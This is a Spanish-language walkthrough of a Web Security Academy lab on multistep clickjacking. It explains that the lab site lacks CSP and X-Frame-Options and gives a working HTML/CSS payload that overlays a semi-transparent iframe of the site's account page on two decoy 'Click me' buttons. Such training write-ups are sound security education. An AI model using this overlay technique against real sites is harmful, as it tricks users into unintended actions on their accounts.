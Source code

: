 ![](/assets/img/Clickjacking-Lab-5/image_6.png)

En este caso, vemos que la `web` no tiene ni `Content-Security-Policy (CSP)` ni `X-Frame-Options`, lo cual la hace vulnerable a `Clickjacking`

Hay veces en las que `el atacante necesita que el usuario víctima realice múltiples clicks`. Por ejemplo, un `atacante` podría querer `engañar` a un `usuario` para que `compre algo` en un `sitio web de ventas`, por lo que los `artículos` deben `añadirse` a un `carrito de compras` antes de `realizar el pedido` y posteriormente se necesitaría otro `click` para `procesar` el `pago`.

Estas `acciones` pueden ser `implementadas` por el `atacante` utilizando múltiples `iframes`. Estos `ataques` requieren una `precisión considerable` y `cuidado` desde la `perspectiva del atacante` si se quiere que sean `efectivos` y `sigilosos`

Nos dirigimos al `Exploit server` y nos `creamos` este `payload`

```
<style>
	iframe {
		position:relative;
		width:400;
		height: 550;
		opacity: 0.3;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:495;
		left:150;
		z-index: 1;
	}
   .secondClick {
		top:315;
		left:155;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a77006f03f4bcd5893ea08800a90071.web-security-academy.net/my-account"></iframe>
```